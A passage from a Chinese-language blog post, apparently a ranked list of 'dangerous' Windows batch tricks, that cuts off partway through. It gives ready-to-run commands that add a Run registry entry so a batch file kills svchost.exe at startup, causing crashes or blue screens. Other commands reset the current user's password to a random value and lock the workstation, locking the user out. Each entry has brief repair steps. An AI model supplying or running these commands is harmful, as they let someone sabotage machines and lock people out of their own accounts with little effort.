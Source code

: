 ## TOP 8：重启蓝屏
与第5名是一样的，都是自启动技术。我们来看看吧~

> 需要说明的有一点，注册表中凡是以`Run`命名的项，下面都是和启动的软件相关的东西。
> 我们这次使用的注册表位置在`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。
> ![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/3dae39cb963548e18371baae7614be5a.png)
> 你看，本来这里就有几个启动项。


> 语言： Windows 批处理
> 工具：记事本
> 危险系数：0.7

```python
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /f /v "pandaoxi_yyds" /t REG_SZ /d "something.bat"
cd "%windir%"
echo taskkill /im svchost.exe /f >>something.bat
```
运行后，成功地看到了注册表增加了数据：![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/26f577fa61844ac5aa730ae856d34641.png)
重启后，程序运行，win7电脑显示“接口未知”，win10蓝屏。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/15d21a4eb2b7406ba8061606ff6144d7.png)
### 修复
同第五名，记得修改注册表！
## TOP 7：修改用户名密码

> 语言： Windows 批处理
> 工具： 记事本、命令提示符
> 危险系数： 0.8
> 运行效果：
> ![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/7bca1d089d8143fe84b74537794d377f.png)![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/d4a5a96481d2454eb397a48cf1d8643b.png)

其实很简单，打开命令提示符，依次输入以下命令（注释不必输进去）：

```powershell
:: 给当前用户随机生成10位的密码
net user %username% %random%%random%
:: 锁屏
rundll32 user32.dll,LockWorkStation
```

### 修复
修复略有一丝丝的麻烦，可以准备一个PE，或者利用 Windows 7 的一个修复模式 BUG ，都可以。我们使用PE。

 1. BIOS 设置，从 PE 启动系统。这里用 优启通PE 做示范。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/d7635f51049c4f5fba0840bd8f99ba1b.png)
 2. “开始菜单、程序、密码相关、密码破解工具”，打开这个工具。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/153aeb5c7c174b4285166242418a82c5.png)
 3. 依次选中，修改密码。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/26221268d5974f03b0eb3d3e6524fe26.png)
 4. 留空，确认，保存修改。拔掉U盘，重新启动。
 5. 恢复正常。
 ![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/471334a5a60941c6ac606f950e63c72d.png)
## TOP 6：开机就重启
> 语言： Windows 批处理
> 工具： 记事本
> 危险系数： 1.5
> 运行效果：开机就重启，进入循环，直到报废。